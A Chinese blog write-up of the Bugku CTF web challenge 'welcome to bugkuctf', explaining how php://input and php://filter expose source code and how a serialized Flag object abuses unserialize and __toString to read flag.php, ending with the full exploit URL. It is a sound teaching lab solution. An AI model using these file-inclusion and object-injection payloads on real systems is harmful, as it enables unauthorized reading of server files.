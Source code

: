 ﻿---
title: 【Bugku CTF】 Web —— welcome to bugkuctf
copyright: true
date: 2018-01-03 22:40:23
tags: [bugku,CTF,writeup,audit,php]
categories: [InfoSec,Web]
---

# 0x00 前言

此题运用了许多 PHP 技巧，解题思路惊艳，特此想分享一下思考过程。与其说此题是 Web 题，不如说是道 PHP 技巧题，难度中等，要求有**扎实的 PHP 基础**。

涉及到的技巧有 **PHP 伪协议、魔术方法、对象的序列化与反序列化**等，相关链接如下：

- 题目链接：[http://123.206.31.85/challenges#welcome to bugkuctf](http://123.206.31.85/challenges#welcome%20to%20bugkuctf)
- 解题链接：[http://120.24.86.145:8006/test1/](http://120.24.86.145:8006/test1/)

<!-- more -->

![question](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/question.png)

# 0x01 PHP 伪协议获取源码

点开链接，依然按常规套路只有一句话：**you are not the number of bugku !**，继续查看源码发现线索：

![hint](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/hint.png)

这里需要满足两点：

1. 构造合适的 URL 查询变量 `txt` 使得 PHP 变量 `$user` 满足 if 语句的条件
2. 令变量 `$file` 通过文件包含函数 `include()` 获取指定页面的源码

注意，此处还未涉及到查询变量 `password`。

## php://input

在 if 语句中，通过 `file_get_contents()` 函数读取变量 `$user` 的值后，再与字符串 `welcome to the bugkuctf` 比较。

因此可借助伪协议 [php://](http://php.net/manual/zh/wrappers.php.php) 中的 `php://input` 访问原始请求数据中的只读流。这里令 `$user = "php://input"`，并在请求主体中提交字符串 `welcome to the bugkuctf`。

## php://filter

在 `include($file); //hint.php` 语句中，相当于把变量 `$file` 的值在该语句的位置读入，结合后面的提示，应该是要把 hint.php 页面的源码以某种形式包含在当前页面内。

因此可利用 `php://filter` 以某种方式筛选过滤特定的数据流。这里令 `$file = php://filter/read=convert.base64-encode/resource=hint.php`，意思是**以 Base64 编码的方式过滤出 hint.php 页面的源码**，也可以把它理解为一个具有 URI 形式的特殊函数，该函数能把 hint.php 源码以 Base64 编码的方式读入。

根据以上两种 PHP 伪协议的分析，构造出以下 payload 即得 hint.php 源码的 Base64 编码:

![get_source](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/get_source.png)

解码后得到 hint.php 源码：

``` php
<?php  
  
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
			echo "<br>";
		return ("good");
        }  
    }  
}  
?>  
```

根据注释发现了藏 flag 的页面，再次照葫芦画瓢去偷看 flag.php 源码：

![flag_fail](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/flag_fail.png)

...果然没那么简单，唔，卡住了，怎么办？

别忘了还有主页面啊！**利用主页面的功能也能读取自身的源码**，这一点很容易被遗忘，所以这次很顺利就获得了 index.php 的源码（注意，路径末尾不带 php 文件的 URL `http://120.24.86.145:8006/test1/`，一般默认就是访问 `http://120.24.86.145:8006/test1/index.php`）：

``` php
<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  
  
if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
    echo "hello friend!<br>";  
    if(preg_match("/flag/",$file)){ 
		echo "不能现在就给你flag哦";
        exit();  
    }else{  
        include($file);   
        $password = unserialize($password);  
        echo $password;  
    }  
}else{  
    echo "you are not the number of bugku ! ";  
}  
  
?>  
  
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 -->  
```

注意到第 8 行将 `$file` 变量中的 `flag` 字符串过滤了，印证了前面的结果。到此，我们顺利地将此题变成一道 PHP 白盒审计题了，现在才是此题最有意思的地方，如何利用已知的 hint.php 与 index.php 的源码去获取 flag.php 的内容？请继续往下看。

# 0x02 序列化构造 payload

要理清 hint.php 与 index.php 之间的关系，首先要理解 hint.php 中的 `__tostring()` 函数是何方神圣。

## 魔术方法 __toString()

「写在前面」：PHP 中变量与方法的命名一般遵循**小驼峰式命名法（Lower Camel Case）**，类的命名一般遵循**大驼峰式命名法（Upper Camel Case）**，也称**帕斯卡命名法（Pascal Case）**，并且**普通变量、超级全局变量、常量、数组索引等区分大小写**，而**函数名、方法名、类名、魔术变量等不区分大小写**，但最好使用与定义一样的大小写名字。详情可参考：

> [驼峰式大小写](https://zh.wikipedia.org/wiki/%E9%A7%9D%E5%B3%B0%E5%BC%8F%E5%A4%A7%E5%B0%8F%E5%AF%AB)
> [PHP命名大小写敏感规则](https://www.cnblogs.com/daipianpian/p/5721377.html)

因此看到此魔术方法定义为 `__toString()`，在源码中却是 `__tostring()` 就不足为奇了。

**魔术方法 [__toString()](http://php.net/manual/zh/language.oop5.magic.php#object.tostring)** 定义在类中，在该类的对象被当成字符串打印时执行，并且返回一个字符串，否则出现报错。

因此在 hint.php 中，当 `Flag` 类的对象被打印时，将获取 `$file` 变量（注意此处的 `$file` 与 index.php 中的不同）中文件的内容并输出，最后返回字符串 `good`。

## 对象的序列化

再来看看 index.php 的 11-15 行，满足了上面所有 if 语句的条件后，先包含变量 `$file`，再反序列化变量 `$password` 后输出。此段代码是本题的核心，理解了就能找到 index.php 与 hint.php 之间的联系，从而构造出 payload。

**核心思想如下：先用 `include()` 函数包含 hint.php，从而引入 `Flag` 类；再将该类对象的序列化字符串赋值给 `$passsword`，且令对象的成员变量 `$file = flag.php`， 所以在反序列化后得到上述对象；最后用 `echo` 打印该对象，从而触发 `__toString()` 函数，输出 flag.php 的值。**

通过以下代码可获得成员变量 `$file = flag.php` 的 `Flag` 对象的序列化字符串：`O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} `

``` php
<?php 
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("good");
        }  
    }  
}  
$f = new Flag();
$f->file = 'flag.php';
echo serialize($f);
?> 
```

根据以上所有的分析，可以将 payload 总结如下：

**`http://120.24.86.145:8006/test1/?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`**

最后别忘了在请求主体中提交字符串 `welcome to the bugkuctf` 喔，提交后得到 flag：

![flag](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/flag.png)

若有不足或错误之处劳烦指出，欢迎有疑问的朋友前来留言讨论。